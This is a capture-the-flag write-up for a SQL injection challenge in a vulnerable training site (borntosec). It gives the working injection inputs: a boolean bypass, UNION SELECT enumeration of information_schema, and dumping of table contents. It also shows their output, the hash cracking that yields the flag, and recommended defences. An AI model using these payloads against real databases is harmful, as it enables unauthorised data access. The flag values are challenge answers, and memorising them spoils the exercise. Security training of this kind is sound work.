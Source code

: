 # SQL_Injection_images

## Description

A SQL injection attack consists of insertion or “injection” of a SQL query via the input data from the client to the application. A successful SQL injection exploit can read sensitive data from the database, modify database data (Insert/Update/Delete), execute administration operations on the database (such as shutdown the DBMS), recover the content of a given file present on the DBMS file system and in some cases issue commands to the operating system. SQL injection attacks are a type of injection attack, in which SQL commands are injected into data-plane input in order to affect the execution of predefined SQL commands.

## Do_similary_thing_like_SQL_injection_members

    # input:
    1 or 1=1

    # result:
    ID: 1 or 1=1 
    Title: Hack me ?
    Url : borntosec.ddns.net/images.png

## Step_2

    # input:
    1 or 1=1 union select column_name, table_name from information_schema.columns where table_schema=database()

    # result:
    ID: 1 or 1=1 union select column_name, table_name from information_schema.columns where table_schema=database(); 
    Title: list_images
    Url : id

    ID: 1 or 1=1 union select column_name, table_name from information_schema.columns where table_schema=database(); 
    Title: list_images
    Url : url

    ID: 1 or 1=1 union select column_name, table_name from information_schema.columns where table_schema=database(); 
    Title: list_images
    Url : title

    ID: 1 or 1=1 union select column_name, table_name from information_schema.columns where table_schema=database(); 
    Title: list_images
    Url : comment

## Step_3

    # input:
    1 or 1=1 union select null, concat(id, url, title, comment) from list_images 

    # result:
    Title: 5borntosec.ddns.net/images.pngHack me ?If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46

## Get_the_flag

    1928e8083cf461a51303633093573c46 -> MD5 hash -> after crack -> albatroz
    albatroz -> ater SHA256 -> f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188

## Solutions

    - Use of Prepared Statements
    - Allow-list Input Validation
    - Escaping All User Supplied Input